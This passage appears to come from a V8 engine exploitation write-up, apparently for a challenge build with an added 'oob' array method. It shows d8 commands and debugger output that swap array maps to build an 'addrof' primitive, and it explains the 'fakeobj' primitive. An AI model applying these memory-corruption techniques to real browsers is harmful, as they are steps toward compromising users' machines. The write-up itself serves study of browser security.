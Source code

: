 As you can see, the `Map` of an array of objects is a little different. Where the float array had a float value at index 0, the object array has the address of the actual `obj` in the same place. If you attempt to access `obj_arr[0]`, it will not just print out the memory address of `obj`, but it will somehow dereference it and print `{A: 1.1}`.  

So, what happens if we leak the map of a float array and overwrite the object array's map with it? Instead of dereferencing the memory address at index 0, it should just treat it as a float avlue. Accessing index 0 should then leak the address of `obj` as a float, right?
```
d8> var float_arr = [1.1, 2.2];
undefined
d8> var float_arr_map = float_arr.oob();
undefined
d8> obj_arr.oob(float_arr_map);
undefined
d8> obj_arr[0];
3.3794286942881e-310
d8> %DebugPrint(obj);
0x3e35b570dd19 <Object map = 0x20149b60ab39>
{A: 1.1}

gef➤  p/f 0x3e35b570dd19
$4 = 3.3794286942880803e-310  <- same as leak
```

Success! In JS engine exploitation terminology, this is what is called an `addrof` primitive. The inverse of this (if we put a memory address at index 0 of our float array and change its map to that of the object array) is called a `fakeobj` primitive, as it allows you to place a fake object anywhere in memory in order to read from and write to it. I will not cover the `fakeobj` primitive here, as I use a different method to get arbitrary read/write.
